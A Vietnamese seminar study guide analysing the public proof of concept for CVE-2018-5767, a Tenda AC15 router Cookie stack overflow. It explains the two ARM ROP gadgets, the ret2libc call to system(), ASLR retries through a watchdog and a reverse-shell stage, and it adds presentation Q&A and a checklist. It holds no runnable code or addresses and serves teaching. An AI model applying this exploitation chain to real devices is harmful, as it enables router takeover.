### 11.1. Năm mức bằng chứng cho seminar

1. **Có đầu vào nguy hiểm:** được [S2], [S3] mô tả; PoC trình bày chỗ đưa Cookie.
2. **Có stack buffer overflow:** theo advisory và phân tích kỹ thuật; nhóm **không tự đo**.
3. **Có chiếm luồng điều khiển:** phương pháp được tác giả PoC thể hiện qua việc xây chuỗi gadget; nhóm **không tự chứng minh trên firmware**.
4. **Có lời gọi hàm thư viện đúng tham số:** PoC thể hiện **ý định cơ chế**; không thể kiểm chứng từng địa chỉ do bị redact.
5. **Có RCE/reverse shell thành công:** được CVE/advisory và PoC lịch sử hướng tới, nhưng **không phải kết quả thực nghiệm của nhóm**.

### 11.2. Phân biệt một CVE khác cùng dòng sản phẩm

Có bài nghiên cứu eShard (2024–2025) về **CVE-2024-2815** trên một phiên bản firmware Tenda AC15 **khác**, cũng liên quan `R7WebsSecurityHandler` và `sscanf`. Bài đó có thể bổ trợ việc hiểu cách reverse-engineering tìm nguồn ghi vượt, nhưng **không được lấy làm chứng cứ tự động** cho mọi offset, URL hay layout của **CVE-2018-5767**.

---

## 12. Những chỗ cần sửa trong báo cáo seminar

Dựa trên **phần C (trang 5–9)** của bản `S05_tai_lieu_hoc_va_trinh_bay (3).docx`:

| Vị trí bản thảo | Nội dung hiện có | Đề xuất |
|---|---|---|
| **C0 — CWE** | NVD gán CWE-20; lỗi nền CWE-121 | **Giữ.** Ghi rõ CWE-121/CWE-120/CWE-787 là phân loại giải thích, không phải các CWE được NVD đồng thời gán. |
| **C1 — mô tả CVE** | Tenda AC15, Cookie `password`, 9.8 Critical | **Giữ.** Thêm chỉ rõ phiên bản firmware; tránh suy ra mọi phiên bản. |
| **C3 — code `sscanf`** | Đã ghi “mã minh họa, không phải mã gốc” | **Giữ nhãn minh họa.** Không khẳng định format string chính xác khi chưa có nguồn cho đúng build. |
| **C4 — gadget/ASLR** | Nói gadget nằm trong `httpd` cố định, rồi gọi libc | **Sửa quan trọng.** PoC 44253 tính `pop`, `mv_r0_sp` và `system` từ **`curr_libc`**. Giải thích gadget ARM và ASLR theo code. |
| **C4 — ABI** | `r0` nhận đối số đầu | **Đúng.** Thêm phân tích `pop {r3,r4,r7,pc}` và `mov r0,sp; blx r3` theo từng thanh ghi. |
| **C5 — mức bằng chứng** | Nhóm không reproduce | **Đúng tinh thần.** Tách rõ tác giả PoC công bố, NVD xác nhận, và nhóm chưa đo độc lập. |
| **C6 — tác động** | RCE quyền cao | **Giữ ở mức cẩn trọng.** Tránh khẳng định đã thu được shell root từ riêng biến `DONE` hay dấu nhắc `#`. |
| **C7 — khắc phục** | NX/ASLR/PIE/canary + giới hạn input | **Giữ.** Không khẳng định tồn tại bản vá chính thức cụ thể nếu chưa dẫn được thông báo hãng. |
| **C9 — mạch tổng hợp** | Cookie → overflow → ret2libc → RCE | **Bổ sung bước hậu khai thác:** gọi `system` → tải/chạy chương trình ARM → kết nối ngược. |

**Vấn đề lớn nhất với giảng viên:** không phải báo cáo thiếu độ dài, mà là **chưa chỉ ra được gadget nào làm gì, `system` được gọi với đối số thế nào và vì sao reverse shell là giai đoạn sau**.

---

## 13. Đoạn viết đề xuất thay thế mục C4

> ### C4. Cơ chế Return-to-libc/ROP trong PoC CVE-2018-5767
>
> PoC Exploit-DB 44253 mô tả việc lợi dụng lỗi tràn bộ đệm khi tiến trình `httpd` xử lý giá trị `password` trong HTTP `Cookie`. Sau khi tác động tới dữ liệu điều khiển trên stack, tác giả không đặt shellcode để thực thi trực tiếp trên stack, mà sử dụng **hai gadget ARM** nhằm gọi một hàm có sẵn trong libc. Đây là sự kết hợp giữa **ROP** (điều phối trạng thái thực thi bằng các gadget) và **return-to-libc** (gọi mã thư viện đã tồn tại).
>
> Gadget thứ nhất có chú thích `pop {r3, r4, r7, pc}`: nó nạp các thanh ghi từ stack, trong đó `r3` được dùng cho đích gọi gián tiếp và `pc` được dùng để chuyển luồng sang gadget tiếp theo. Gadget thứ hai có chú thích `mov r0, sp; blx r3`: nó đặt `r0` — vị trí chứa đối số thứ nhất theo quy ước ARM 32-bit thường gặp — bằng con trỏ stack, sau đó gọi tới hàm đang được chỉ bởi `r3`. Mục tiêu lời gọi được PoC đặt là `system()` trong libc, nhận chuỗi lệnh làm đối số. Đây là **phần thể hiện kỹ thuật ret2libc cốt lõi**.
>
> PoC thể hiện địa chỉ của `system` **và cả hai gadget** bằng các biểu thức tương đối với `curr_libc` — một **giá trị địa chỉ libc dự đoán**. Do ASLR có thể thay đổi vị trí libc khi tiến trình được khởi động lại, tác giả mô tả cơ chế **lặp lại cùng một dự đoán** trên các lần thử và tận dụng watchdog khởi động lại tiến trình khi crash. Đoạn công khai **không** cung cấp đầy đủ base/offset nên không đủ để kiểm chứng mọi địa chỉ hoặc kết quả khai thác.
>
> Sau lời gọi ret2libc, chuỗi lệnh được hướng tới việc tải và chạy một chương trình ARM được PoC chuẩn bị trước bằng `compile_shell()`. Chương trình ARM dùng socket TCP, chuyển hướng các descriptor chuẩn và khởi chạy `/bin/sh` để tạo reverse shell. Cần tách bạch **lời gọi `system()` qua ret2libc** với **lệnh `system("/bin/sh")` bên trong chương trình ARM hậu khai thác**.
>
> **Kết luận:** Trường hợp này minh họa vì sao NX/DEP không triệt tiêu khả năng khai thác stack buffer overflow: luồng thực thi có thể bị dẫn tới các đoạn mã sẵn có trong thư viện. Tuy nhiên, PoC công khai đã che các giá trị địa chỉ/offset; nhóm chỉ phân tích tĩnh, không tuyên bố đã tái hiện CVE trên firmware thật.

---

## 14. Dàn ý thuyết trình và câu hỏi phản biện

### 14.1. Dàn ý khuyến nghị (khoảng 12–15 phút)

| Slide | Nội dung | Thời lượng gợi ý |
|---|---|---:|
| 1 | Đặt câu hỏi “Có NX thì overflow còn nguy hiểm không?” | 1 phút |
| 2 | CVE ID, router, firmware, entry point Cookie `password` | 1 phút |
| 3 | Source → `sscanf` → stack overflow → dữ liệu điều khiển | 2 phút |
| 4 | Return-to-libc khác shellcode trên stack ở đâu | 1 phút |
| 5 | **Hai gadget ARM, r0/r3/pc và lời gọi system** | **3 phút** |
| 6 | `curr_libc`, NX/ASLR, watchdog, logic lặp lại | 2 phút |
| 7 | HTTP server → chương trình ARM → reverse shell | 2 phút |
| 8 | Giới hạn chứng cứ, phòng thủ, kết luận | 1–2 phút |

### 14.2. Câu hỏi phản biện và câu trả lời mẫu

**Q1. `ARM_REV_SHELL` có phải là ret2libc không?**  
**A:** Không. Nó là mã C để xây chương trình kết nối ngược sau khai thác. Ret2libc nằm ở đoạn sử dụng gadget ARM để gọi hàm `system()` trong libc.

**Q2. Vì sao không chỉ ghi đè địa chỉ trở về bằng `system()`?**  
**A:** Trên ARM 32-bit, đối số đầu thường nằm ở `r0`. Cần bảo đảm `r0` trỏ tới chuỗi lệnh thích hợp, nên PoC dùng gadget để đặt thanh ghi trước lời gọi.

**Q3. `pop {r3,r4,r7,pc}` có tác dụng gì?**  
**A:** Nó lấy dữ liệu từ stack vào các thanh ghi; đặc biệt `r3` dùng cho đích gọi gián tiếp và `pc` quyết định bước chạy tiếp theo.

**Q4. `mov r0,sp; blx r3` có tác dụng gì?**  
**A:** Chuyển con trỏ stack sang thanh ghi đối số `r0`, sau đó gọi hàm tại địa chỉ do `r3` chỉ tới.

**Q5. Sao có NX vẫn thực thi được?**  
**A:** NX cấm thực thi mã ở vùng dữ liệu được đánh dấu không thực thi; nó không cấm gọi hàm/gadget đã nằm trong vùng mã được phép chạy.

**Q6. PoC có tự dò hết các địa chỉ libc không?**  
**A:** Không. Đoạn công khai lấy một địa chỉ libc dự đoán rồi lặp lại request; tác giả cho biết dựa vào watchdog restart để có nhiều lần thử với ASLR.

**Q7. `DONE=True` có nghĩa chắc chắn đã chiếm root?**  
**A:** Không. Nó chỉ có nghĩa listener đã nhận một TCP connection. Muốn xác nhận danh tính đầu kết nối và quyền thực thi cần bằng chứng riêng.

**Q8. PoC có chạy ngay được không?**  
**A:** Không thể khẳng định; một số giá trị đã bị che (`****`), `offset` chưa có định nghĩa trong bản công khai, và mã phụ thuộc Python 2, ARM toolchain và môi trường router.

**Q9. Các gadget ở đâu?**  
**A:** Theo đúng cách tính địa chỉ trong PoC, `pop`, `mv_r0_sp` và `system` đều được đặt tương đối với `curr_libc`. Không nên khẳng định từ PoC rằng hai gadget nằm trong executable `httpd` cố định.

**Q10. Cách phòng chống tốt nhất?**  
**A:** Sửa xử lý input để không ghi vượt; tăng cường cơ chế phòng thủ theo chiều sâu (stack canary, NX, ASLR, PIE khi thích hợp), hạn chế giao diện quản trị tiếp xúc mạng không tin cậy và cập nhật firmware được nhà sản xuất hỗ trợ.

### 14.3. Kịch bản nói ngắn gọn xuyên suốt (60–90 giây)

> “CVE-2018-5767 ảnh hưởng đến firmware Tenda AC15 được NVD công bố. Dữ liệu điều khiển bởi người gửi request được đưa vào Cookie `password`; theo advisory, xử lý bằng `sscanf` thiếu an toàn có thể gây stack buffer overflow. Nếu vùng ghi đè ảnh hưởng dữ liệu điều khiển, luồng chạy có thể bị chuyển hướng. PoC không phụ thuộc việc chạy mã mới trên stack; nó dùng hai gadget ARM. Gadget đầu nạp các thanh ghi và PC từ stack; gadget sau chuyển SP sang r0 rồi gọi hàm thông qua r3. Mục tiêu là `system()` của libc, nhận một chuỗi lệnh. PoC cũng phải đối mặt với ASLR: tác giả mô tả thử lại khi watchdog làm tiến trình khởi động lại. Cuối cùng, lệnh được dùng để tải và chạy một chương trình ARM tạo reverse shell. Vì vậy, điều chứng minh về mặt kỹ thuật là NX không đủ nếu chương trình còn lỗ hổng ghi vượt và kẻ khai thác có thể tái sử dụng mã có sẵn. Nhóm chỉ phân tích PoC công khai, không tuyên bố đã tái hiện trên thiết bị thật.”

---

## 15. Nguồn tham khảo

1. **[S1] Exploit-DB EDB-ID 44253 — Tenda AC15 Router - Remote Code Execution** (mã PoC của Tim Carrington, 14/02/2018): <https://www.exploit-db.com/exploits/44253>
2. **[S2] NIST NVD — CVE-2018-5767** (mô tả CVE, CVSS, CWE-20 và firmware): <https://nvd.nist.gov/vuln/detail/CVE-2018-5767>
3. **[S3] Fidus/Full Disclosure — Remote Code Execution Walkthrough on Tenda AC15 Router** (14/02/2018): <https://seclists.org/fulldisclosure/2018/Feb/48>
4. **[S4] Bản thảo seminar của nhóm** — `S05_tai_lieu_hoc_va_trinh_bay (3).docx`, Phần C, trang 5–9, được cung cấp trong cuộc trò chuyện.
5. **Nguồn bổ trợ, chỉ để phân biệt CVE/firmware khác:** eShard, *Exploiting a router vulnerability: Tenda AC15 | Part II* (liên quan CVE-2024-2815, không phải bằng chứng trực tiếp về offset của CVE-2018-5767): <https://www.eshard.com/blog/tenda-ac15-cve-time-travel-analysis>

### Checklist tự kiểm trước khi nộp

- [ ] Trong slide, ghi rõ **CVE-2018-5767**, firmware **V15.03.1.16_multi**.
- [ ] Giải thích chính xác vai trò **Cookie `password`**, `sscanf` và stack overflow.
- [ ] Chỉ được **2 gadget** và chức năng **`r0`, `r3`, `pc`, `sp`**.
- [ ] Chỉ ra **`system` trong libc** là trọng tâm ret2libc; **`ARM_REV_SHELL`** là hậu khai thác.
- [ ] Không nói gadget của PoC nằm trong `httpd` cố định khi code lại tính từ `curr_libc`.
- [ ] Giải thích **ASLR dự đoán cố định + lặp request sau restart**, không nói duyệt toàn bộ địa chỉ.
- [ ] Không coi **HTTP exception / `DONE=True` / compiler return code 0** là bằng chứng đầy đủ đã root thành công.
- [ ] Dán link NVD, Exploit-DB, Full Disclosure trong tài liệu/slide.
- [ ] Gắn nhãn **“mã minh họa”** với mọi đoạn giả lập `sscanf` không được trích trực tiếp từ firmware.
- [ ] Nêu rõ **không tái hiện** trên firmware thật và không điền offset bị redact.
